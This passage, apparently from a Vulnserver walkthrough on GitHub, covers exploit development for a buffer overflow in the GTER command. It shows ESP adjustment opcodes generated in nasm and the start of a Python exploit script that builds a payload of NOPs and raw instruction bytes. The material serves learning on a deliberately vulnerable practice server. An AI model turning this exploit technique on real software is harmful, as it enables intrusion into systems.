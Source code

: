 Adding two ```push esp``` instructions to check ```ESP``` value

<div align="center">
<img src="https://raw.githubusercontent.com/AidenPearce369/Vulnserver-Walkthrough/main/res/gter2-fd-6.png">
</div>

Here we can see that the ESP value is decreasing for each push instruction which is not good, because at one point we will be overwriting our payload and EIP

<div align="center">
<img src="https://raw.githubusercontent.com/AidenPearce369/Vulnserver-Walkthrough/main/res/gter2-fd-7.png">
</div>

To avoid this, lets ```manually decrease the ESP value``` for better usage

Generating opcodes for that,

```c
nasm > sub esp, 0x70
00000000  83EC70            sub esp,byte +0x70
```

Lets test this now,

```c
┌──(kali㉿aidenpearce369)-[~/vulnserver/GTER]
└─$ cat esp-adjustment.py    
import socket, sys

file_descriptor=b""
file_descriptor+=b"\xcc"
file_descriptor+=b"\x54"
file_descriptor+=b"\x5b"
file_descriptor+=b"\x66\x81\xc3\x88\x01"

stack_adjustment=b""
stack_adjustment+=b"\x83\xec\x70"

payload=b""
payload+=b"\x90"*20
payload+=file_descriptor
payload+=stack_adjustment
payload+=b"\x90"*(100-len(payload))
```